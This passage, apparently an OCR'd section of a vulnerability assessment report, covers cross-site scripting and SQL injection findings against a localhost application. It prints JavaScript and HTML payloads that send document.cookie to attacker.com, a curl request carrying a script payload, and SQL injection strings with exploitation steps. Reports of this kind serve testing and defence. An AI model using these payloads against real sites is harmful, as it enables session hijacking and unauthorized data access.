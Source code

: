 #### Code Examples

**JAVASCRIPT:**
```javascript
fetch('https://attacker.com/steal.php?cookie=' + document.cookie);
```

**HTML:**
```html
<img src="x" onerror="fetch('https://attacker.com/steal.php?cookie=' + document.cookie)">
```

#### Command Examples

```bash
curl -X GET "http://127.0.0.1/search?q=<script>alert(document.cookie)</script>"
```

#### Required Tools

- Browser Developer Tools
- XSS Hunter
- BeEF (Browser Exploitation Framework)

#### Potential Impact

- Theft of user cookies and session tokens
- Account takeover and identity theft
- Malicious actions performed on behalf of the victim
- Distribution of malware to users
- Access to sensitive browser data (webcam, microphone, location)
- Defacement of website content
- Social engineering attacks on users

---

### SQL Injection (High)

**Affected Component:** http://127.0.0.1/product (id parameter)

**Description:** An attacker can inject malicious SQL code into application queries, allowing them to bypass authentication, access unauthorized data, modify database contents, or delete information. In some cases, they may achieve server-level command execution.

#### Step-by-Step Exploitation

1. Navigate to the vulnerable page: http://127.0.0.1/product
2. Identify the vulnerable parameter: id
3. Test basic SQL injection payloads (e.g., ' OR '1'='1)
4. If vulnerable, extract database structure with UNION attacks
5. Extract sensitive data from identified tables

#### Example Payloads

```
' OR 1=1; --
```

